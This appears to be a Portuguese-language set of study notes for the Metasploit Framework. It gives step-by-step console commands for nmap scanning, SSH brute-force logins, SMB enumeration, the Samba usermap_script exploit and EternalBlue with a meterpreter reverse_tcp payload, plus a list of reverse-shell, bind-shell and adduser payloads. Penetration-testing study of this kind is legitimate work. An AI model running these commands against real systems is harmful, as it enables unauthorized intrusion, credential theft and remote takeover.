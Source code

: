 ##   Metasploit Framework

base de dados do metasploit

`msfdb`

*Obs: Antes de inicializar a base dedados lembre-se de atualizar seu sistema.

veriricando status 

`msfdb status`

inicializando postgress

`systemctl start postgresql`

Inicializando

`msfdb init`

inicializando metasploit

`msfconsole`


## Módulos Auxiliares

Exibindo informações

`show -h`

utilizando search

`search -h`

`search ...`

`search type:....`

Utilizando o NMAP no metasploit

`db_nmap -v --open -sV -Pn 192.168.0.1`

Exportando dados do NMAP para posteriormente ser usado no metasploit

`nmap -v --open -sV -Pn 192.168.0.1 -oX /opt/host4.xml`

Importando para o metasploit

`db_import /opt/host4.xml`

Listando informações

`service`

`service -p 21`

`hosts`

`vulns`

## Ataques de força bruta

`search type:auxiliary ssh`

`use auxiliary/scanner/ssh/ssh_login`

`show options`

`nano /opt/users.txt`

`nano /opt/pass.txt`

`set RHOST 192.168.0.1`

`set THREADS 10`

`set USER_FILE /opt/users.txt`

`set PASS_FILE /opt/pass.txt`

`set VERBOSE true`

`run`

`sessions` 

`sessions -i 1`

`creds`

## Levantamento de Informações

`db_nmap -p 139,445 --open -Pn -sS 192.168.0/24`

`services`

`services -p 139`

`services -p 445`

`search type:auxiliary smb`

`use auxiliary/scanner/smb/smb_version`

`info`

`service -p 445 --rhosts`

`show options`

`run`

`hosts`

## Identificando Vulnerabilidades

`vulns`

`hosts -i "Samba x.x.x" 192.168.0.1`

`search type:exploit samba`

*Obs: observe a coluna rank e verifique os exploits que são excellent, pois estes funcionam de forma perfeita.*

`search type:exploit fullname: "Samba 3.0.20" `

`search type:auxiliary smb`

`use auxiliary/scanner/smb/smb_ms17_010`

`services -p 445`

`services -p 445 --rhosts`

`show options`

`run`


## Explorando vulnerabilidade no Linux

`use exploit/multi/samba/usermap_script`

`info`

`exploit`

Listando payloads do exploit ativo:

`show payloads`


## Explorando vulnerabilidade no Windows

`search ms17_010`

`use exploit/windows/smb/ms17_010_eternalblue_win8`

`show options`

`set RHOSTS 192.168.0.1`

`show payloads`

*Obs: Caso você não defina o payload o exploit ira escolher de forma automática qual o melhor na quele momento.*

Exemplo para definir o payload:

`set payload windows/x64/meterpreter/reverse_tcp`

`exploit`

*Obs: Caso seja emitido algum erro ao exeuctar o exploit, analise a menssagem e observe se esta faltando alguma dependência (modulo) para que o exploit funcione de forma correta.*

Exemplo de instalação de Dependência

`apt search impacket`

`apt install impacket-scripts python-impacket python3-impacket`

Executando o exploit novamente apos instalar a dependẽncia

`exploit`

`help`


## Tipos de Payloads


windows/x64/meterpreter_reverse_tcp   -   Inline / non_staged

windows/x64/meterpreter/reverse_tcp   -   Staged


windows/shell_bind_tcp  -   Inline / non_staged

windows/shell/bind_tcp   -   Staged

windows/adduser   -   Inline / non_staged

linux/x86/adduser   -   Inline / non_staged

linux/x86/shell/reverse_tcp   -   Staged

linux/x86/shell_reverse_tcp -   Inline / non_staged


## Diferenças entre payloads (Rever)

Buscando vulnerabilidades

`db_nmap --open -p 445 192.168.0.1 --script=vuln -Pn`








































